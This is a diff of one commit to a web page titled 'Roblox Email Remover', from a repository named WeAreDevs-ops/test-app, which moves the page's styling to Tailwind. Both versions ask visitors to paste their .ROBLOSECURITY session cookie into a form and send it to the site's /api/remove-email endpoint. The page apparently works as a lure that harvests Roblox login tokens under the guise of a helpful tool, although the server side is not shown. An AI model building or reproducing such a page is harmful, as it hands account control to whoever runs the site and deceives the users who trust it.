

Before and after one commit to WeAreDevs-ops/test-app, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -2,76 +2,45 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>Remove Email from Roblox</title>
-  <style>
-    body {
-      font-family: sans-serif;
-      background: #f3f4f6;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-      margin-top: 100px;
-    }
-    form {
-      background: white;
-      padding: 30px;
-      border-radius: 10px;
-      box-shadow: 0 2px 6px rgba(0,0,0,0.2);
-      width: 100%;
-      max-width: 500px;
-    }
-    input, button {
-      width: 100%;
-      padding: 10px;
-      margin-top: 10px;
-      font-size: 16px;
-    }
-    button {
-      background: #22c55e;
-      color: white;
-      border: none;
-      cursor: pointer;
-    }
-    #response {
-      margin-top: 20px;
-      font-weight: bold;
-    }
-  </style>
+  <title>Roblox Email Remover</title>
+  <script src="https://cdn.tailwindcss.com"></script>
 </head>
-<body>
-  <form id="removalForm">
-    <h2>Remove Email from Roblox</h2>
-    <label>.ROBLOSECURITY Cookie:</label>
-    <input type="text" id="cookieInput" placeholder="Paste your cookie..." required>
-    <button type="submit">Remove Email</button>
-    <div id="response"></div>
+<body class="bg-gray-100 min-h-screen flex items-center justify-center">
+  <div class="bg-white shadow-lg rounded-lg p-8 w-full max-w-md">
+    <h1 class="text-2xl font-semibold text-center text-gray-800 mb-6">🔒 Roblox Email Remover</h1>
+
+    <form id="form" class="space-y-4">
+      <div>
+        <label for="cookie" class="block text-sm font-medium text-gray-700 mb-1">.ROBLOSECURITY Cookie</label>
+        <textarea id="cookie" rows="5" class="w-full px-3 py-2 border rounded-lg shadow-sm focus:ring focus:ring-green-200 focus:outline-none" placeholder="Paste your .ROBLOSECURITY cookie here" required></textarea>
+      </div>
+
+      <button type="submit" class="w-full bg-green-500 hover:bg-green-600 text-white font-semibold py-2 px-4 rounded-lg transition duration-200">
+        🚀 Remove Email
+      </button>
     </form>
 
+    <p id="result" class="mt-4 text-center text-sm text-gray-700 font-medium"></p>
+  </div>
+
   <script>
-    const form = document.getElementById('removalForm');
-    const responseDiv = document.getElementById('response');
+    const form = document.getElementById('form');
+    const result = document.getElementById('result');
 
     form.addEventListener('submit', async (e) => {
       e.preventDefault();
-      responseDiv.innerText = "⏳ Processing...";
+      result.textContent = '⏳ Processing...';
 
-      const cookie = document.getElementById('cookieInput').value;
-
-      try {
       const res = await fetch('/api/remove-email', {
         method: 'POST',
         headers: { 'Content-Type': 'application/json' },
-          body: JSON.stringify({ cookie })
+        body: JSON.stringify({ cookie: document.getElementById('cookie').value })
       });
 
       const data = await res.json();
-        responseDiv.innerText = data.message || '❌ Something went wrong';
-        responseDiv.style.color = data.status === "success" ? "green" : "red";
-
-      } catch (err) {
-        responseDiv.innerText = "❌ Error sending request";
-        responseDiv.style.color = "red";
-      }
+      result.textContent = data.message || (data.success ? '✅ Success' : '❌ Failed');
+      result.classList.remove('text-gray-700', 'text-green-500', 'text-red-500');
+      result.classList.add(data.success ? 'text-green-500' : 'text-red-500');
     });
   </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
